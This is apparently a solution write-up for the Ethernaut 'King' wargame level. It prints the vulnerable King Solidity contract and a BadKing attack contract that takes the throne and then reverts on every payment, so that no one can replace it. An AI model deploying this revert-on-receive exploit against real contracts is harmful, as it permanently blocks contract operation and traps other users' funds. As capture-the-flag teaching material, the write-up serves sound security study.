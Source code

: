 Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

We create a helper contract BadKing:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract BadKing {

  function becomeKing(address king) public payable {
      
      require(msg.value == 1 ether, "please send exactly 1 ether");
      
    (bool success, ) = king.call.value(msg.value)("");
    
    require(success, "External call failed");
  }

//this is to reject anyone paying and getting the throne, alternatively could have not had anything here at all, but then no message!
receive() external payable {
    require(false, "cannot claim my throne!");
}
}
```
